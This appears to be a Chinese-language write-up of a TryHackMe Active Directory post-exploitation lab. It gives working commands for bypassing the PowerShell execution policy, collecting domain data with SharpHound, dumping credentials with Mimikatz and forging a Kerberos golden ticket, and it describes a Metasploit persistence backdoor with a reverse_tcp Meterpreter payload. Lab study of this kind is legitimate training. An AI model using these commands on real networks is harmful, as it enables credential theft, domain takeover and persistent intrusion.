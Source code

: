 # post exploit

这些东西我们在学习AD的时候就已经使用过了，今天借此房间我们来简单复习一下

### Powerview

启动 Powershell - -ep 绕过 Powershell 的执行策略，让您轻松运行脚本

    powershell -ep bypass

这里有一个备忘单来帮助你使用命令：https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

---

### BloodHound

寻血猎犬装置 -

1.)apt-get install bloodhound    

2.） - 默认凭据 -> neo4j：neo4jneo4j console

用神猎犬获得战利品 -

1.） 与 PowerView 相同powershell -ep bypass

2.). .\Downloads\SharpHound.ps1    

3.)Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip

将zip文件拖到bloodhound上

---

### mimikatz

Mimikatz是一种非常流行且功能强大的后开发工具，主要用于在Active Directory网络内转储用户凭据

确保输出为“privilege '20' OK” - 这可确保您以管理员身份运行 mimikatz;如果您不以管理员身份运行Mimikatz，Mimikatz将无法正常运行 privilege::debug

后面的内容都是很熟悉了，提取ntlm hash....john爆破....

### Golden Ticket && mimikatz

再次使用与上一个任务相同的工具;但是，这次我们将使用它来创建一张黄金票。

我们将首先转储 krbtgt 用户的哈希和 sid，然后创建一个黄金票证，并使用该黄金票证打开一个新的命令提示符，允许我们访问网络上的任何机器。

    mimikatz # kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt

参数说明：

    /admin - 我们要模拟的用户名。这不必是有效的用户。
    /domain - 我们要为其生成票证的域的 FQDN。
    /id - 用户 RID。默认情况下，Mimikatz 使用 RID 500，这是默认的管理员帐户 RID。
    /sid - 我们要为其生成票证的域的 SID。
    /krbtgt - KRBTGT 帐户的 NTLM 哈希。
    /endin - 票证生存期。默认情况下，Mimikatz 会生成有效期为 10 年的票证。AD 的默认 Kerberos 策略为 10 小时（600 分钟）
    /renewmax - 续订的最长票证生存期。默认情况下，Mimikatz 会生成有效期为 10 年的票证。AD 的默认 Kerberos 策略为 7 天（10080 分钟）
    /ptt - 此标志告诉 Mimikatz 将票证直接注入会话，这意味着它已准备好使用。

misc::cmd打开新的cmd

klist查看有没有注入成功

---

### mmc

差不多就是mmc的使用，没什么好讲的点

---

### Metasploit 持久性

运行持久性模块 -

1.） 默认情况下，此模块将每 10 秒发送一次有效负载，但您可以将此时间设置为您想要的任何时间

    use exploit/windows/local/persistence

如果系统因任何原因关闭或重置，您将丢失您的 meterpreter 会话，但是通过使用持久性模块，您可以在系统中创建一个后门，您可以随时使用 metasploit multi 处理程序访问该后门，并将有效负载设置为允许您将另一个 meterpreter 有效负载发送到机器并打开新的 meterpreter 会话。windows/meterpreter/reverse_tcp
